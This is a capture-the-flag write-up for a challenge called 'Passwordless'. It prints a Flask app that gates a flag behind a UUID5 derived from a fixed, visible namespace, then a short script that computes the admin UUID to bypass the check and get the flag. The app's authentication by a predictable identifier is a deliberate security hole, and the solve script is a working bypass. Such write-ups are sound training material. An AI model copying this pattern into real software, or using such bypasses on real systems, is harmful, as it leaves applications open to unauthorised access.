 # Passwordless

![](../images/passwordless-part-1.png)

I click on `app.py`, which takes me to a webpage that contains:

```txt
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import subprocess
import urllib
import uuid
global leet

app = Flask(__name__)
flag = open('/flag.txt').read()
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')

@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```
I then click on `http://24.199.110.35:40150/`, which takes me to this website:

![](../images/passwordless-part-2.png)
 
I enter "a" as my username, which results in:

![](../images/passwordless-part-3.png)


I then glance to the top of the page, where I notice that the URL is:

```txt
24.199.110.35:40150/8a406be5-22f6-5340-9491-03cf301dcfdf
```

I then go back to `app.py`, where I notice:

```txt
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag
```
Now, if the UID doesn’t equal (leet,’admin123’), no flag will be sent. However, if the `username == admin123`, the page will send `Stop trying to act like you are the admin!`. All I need to do is make a python script that prints out the UID for admin123. I am given the leet for admin123, which is `leet=uuid.UUID('13371337-1337-1337-1337-133713371337')`. So, I create a python file titled `passwordless_solve.py`, and begin working:

```txt
import uuid
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')
uid = str(uuid.uuid5(leet,'admin123'))
print(uid)
```

I then run `passwordless_solve.py`, which results in:

```txt
3c68e6cc-15a7-59d4-823c-e7563bbb326c
```

I then go back to `http://24.199.110.35:40150/` and change the url to `24.199.110.35:40150/3c68e6cc-15a7-59d4-823c-e7563bbb326c`. I then execute the URL, which results in:

![](../images/passwordless-part-4.png)

I then submit ` n00bz{1337-13371337-1337-133713371337-1337}` and solve the challenge.

